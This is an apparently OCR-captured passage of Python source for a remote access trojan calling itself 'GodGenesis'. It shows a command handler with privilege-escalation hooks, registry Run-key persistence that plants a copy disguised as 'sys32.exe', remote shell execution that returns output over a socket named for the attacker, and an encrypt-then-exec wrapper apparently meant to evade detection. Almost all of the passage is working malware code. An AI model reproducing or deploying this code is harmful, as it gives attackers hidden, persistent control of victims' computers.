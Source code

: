 
        elif command == 'privsec3':
            try:
                priv3()
            except:
                pass
                
    
        elif command == 'persistence1':
            try:
                persistent1()
                reliable_send("persistence Achieved Via Method 1")
            except:
                reliable_send("persistence Not Achieved")
                pass

                 

        elif command == 'persistence2':
            try:
                destination = os.environ["appdata"] + "\\sys32.exe"
                print(destination)
                if not os.path.exists(destination):
                    shutil.copyfile(sys.executable, destination)
                    subprocess.run('reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v GodGenesis /t REG_SZ /d "'+ destination + '"', shell=True)            
                    reliable_send("persistence Achieved Via Method 2")
                else:
                    reliable_send("Persistent Established Before")
            except:
                reliable_send("persistence Not Achieved")
                pass
                


        
        else:
            try:

                execute = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE,
                                   stdin=subprocess.PIPE)
                result = execute.stdout.read() + execute.stderr.read()
                result = result.decode()
                reliable_send(result)
            except:
                pass

connection_to_attacker = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connection()


"""
key = Fernet.generate_key()
encryption_type = Fernet(key)
encrypted_message = encryption_type.encrypt(code)

decrypted_message = encryption_type.decrypt(encrypted_message)

exec(decrypted_message)
